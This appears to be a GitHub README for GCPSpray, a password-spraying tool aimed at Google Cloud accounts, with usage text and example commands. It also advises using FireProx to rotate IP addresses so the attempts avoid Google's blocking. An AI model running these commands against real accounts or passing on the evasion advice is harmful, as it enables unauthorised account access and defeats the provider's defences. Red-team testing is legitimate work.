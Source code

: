 # GCPSpray

This script will perform password spraying against Google Cloud Plataform (GCP).

This tool works well with [FireProx](https://github.com/ustayready/fireprox) to rotate source IP addresses on authentication requests. In testing this appeared to avoid getting blocked by Google.

## Quick Start
### Requirements

You will need to install the python library `requests`. You can do this by running:
```
pip3 install requests
```

### Usage

You will need a userlist file with target email-addresses one per line. 
```
usage: MSOLSpray.py [-h] -u FILE -p PASSWORD [-o OUTFILE] [-f] [--url URL]

optional arguments:
  -h, --help            show this help message and exit
  -u FILE, --userlist FILE
                        File filled with usernames one-per-line in the format
                        'user@domain.com'. (Required)
  -p PASSWORD, --password PASSWORD
                        A single password that will be used to perform the
                        password spray. (Required)
  -o OUTFILE, --out OUTFILE
                        A file to output valid results to.
  --url URL             The URL to spray against (default is
                        https://accounts.google.com). Potentially useful if
                        pointing at an API Gateway URL generated with
                        something like FireProx to randomize the IP address
                        you are authenticating from.

EXAMPLE USAGE:
This command will use the provided userlist and attempt to authenticate to each account with a password of Winter2020.
    python3 GCPSpray.py --userlist ./userlist.txt --password Winter2020

This command uses the specified FireProx URL to spray from randomized IP addresses and writes the output to a file. See this for FireProx setup: https://github.com/ustayready/fireprox.
    python3 GCPSpray.py --userlist ./userlist.txt --password P@ssword --url https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox --out valid-users.txt
```